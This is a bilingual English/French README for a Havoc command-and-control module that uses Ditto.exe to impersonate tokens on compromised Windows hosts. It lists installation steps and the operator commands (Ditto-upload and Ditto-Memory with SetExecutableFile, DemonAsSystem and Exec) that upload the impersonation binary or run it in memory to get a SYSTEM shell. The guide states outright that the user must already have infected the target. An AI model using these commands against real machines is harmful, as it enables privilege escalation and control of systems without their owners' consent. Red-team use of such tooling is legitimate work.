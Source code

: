 # Havoc_impersonate

**language**
1. [EN](#en)
2. [FR](#fr)

## EN

1. [Description](#description)
2. [Installation](#installation)
3. [Usage-guide](#usage-guide)
    1. [Prerequisites](#prerequisites)
    2. [type-upload](#upload)
        - [set-Executable-local-file](#step-1)
        - [use-module](#step-2)
    3. [type-memory](#in-memory)
        - [set-Executable-local-file](#step-1-1)
        - [use-module](#step-2-1)


### Description

The Havoc_impersonate module directly integrates impersonation functionality into Havoc.

This script utilizes three binary files. Two of these files are copies of objects from the NoConsoolation module. The third file is Ditto.exe, which performs the impersonation. We thank @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) for his repository.

This module allows uploading Ditto.exe (or another file) to the target machine or executing the executable directly in memory.

### Installation

1. Install Python dependencies:
```bash
pip install argparse 
```

2. Clone the repository:
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

After cloning, open your Havoc client.

3. Click on the "Script" tab and open the script manager window.

![alt text](img/image1.png)

4. Click "Load Script", choose the impersonnate.py file, and open it.

![alt text](img/image2.png)
![alt text](img/image3.png)

A line will appear in the script manager tab, indicating that the script has been loaded into Havoc.

### Usage Guide
#### Prerequisites

You must have infected your target and have a privileged account before using this module.

![alt text](img/image.png)

#### Upload
##### Step 1

This command is used to set the local file to be uploaded to your target. The uploaded file take your id session havoc to name it.

```
Ditto-upload SetExecutableFile ~/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```
![alt text](img/image4.png)

##### Step 2

**To obtain a system shell:**

```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```
![alt text](img/image5.png)

**To execute a custom command for Ditto or other executble:**
!!! Warning !!!
the option -h or --help was interpreted by havoc and craching my module

```
Ditto-upload Exec help
```

![alt text](img/image6.png)

#### In Memory
##### Step 1

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Step 2

**To obtain a system shell:**

```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```


**To execute a custom command for Ditto:**
!!! Warning !!!
the option -h or --help was interprete by havoc and craching my module

```
Ditto-Memory Exec help
```


## FR

1. [Description](#description-1)
2. [Installation](#installation-1)
3. [guide-utilisation](#guide-dutilisation)
    1. [préréquis](#prérequis)
    2. [Mode-upload](#upload-1)
        - [Définir-Executable-locale](#étape-1)
        - [utilisation-du-module](#étape-2)
    3. [Mode-en-mêmoire](#en-mémoire)
        - [Définir-Executable-locale](#étape-1-1)
        - [utilisation-du-module](#étape-2-1)

### Description

Le module Havoc_impersonnate intègre directement la fonctionnalité d'usurpation d'identité dans Havoc.

Le script utilise trois fichiers binaires. Deux de ces fichiers sont des copies d'objets provenant du module NoConsoolation. Le troisième fichier est Ditto.exe, qui effectue l'usurpation d'identité. Nous remercions @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) pour son dépôt.

Ce module permet de télécharger Ditto.exe (ou un autre fichier) sur la machine cible ou d'exécuter directement l'exécutable en mémoire.

### Installation

1. Installez les dépendances Python :
```bash
pip install argparse 
```

2. Clonez le dépôt :
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

Après le clonage, ouvrez votre client Havoc.

3. Cliquez sur l'onglet "Script" et ouvrez la fenêtre du gestionnaire de scripts.

![alt text](img/image1.png)

4. Cliquez sur "Load Script", choisissez le fichier impersonnate.py et ouvrez-le.

![alt text](img/image2.png)
![alt text](img/image3.png)

Une ligne apparaîtra dans l'onglet du gestionnaire de scripts, indiquant que le script a été chargé dans Havoc.

### Guide d'utilisation
#### Prérequis

Vous devez avoir infecté votre cible et disposer d'un compte privilégié avant d'utiliser ce module.

![alt text](img/image.png)

#### Upload
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. Le fichier uploader prendra le nom de votre session Havoc.

```
Ditto-upload SetExecutableFile ~/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```
![alt text](img/image4.png)

##### Étape 2

**Pour obtenir un shell système :**
```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```
![alt text](img/image5.png)

**Pour exécuter une commande personnalisée pour Ditto :**
```
Ditto-upload Exec help
```
![alt text](img/image6.png)

#### En mémoire
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. L'upload nécessite l'ID de votre session.

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

##### Étape 2

Pour obtenir un shell système :
```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```


Pour exécuter une commande personnalisée pour Ditto :
```
Ditto-Memory Exec help
```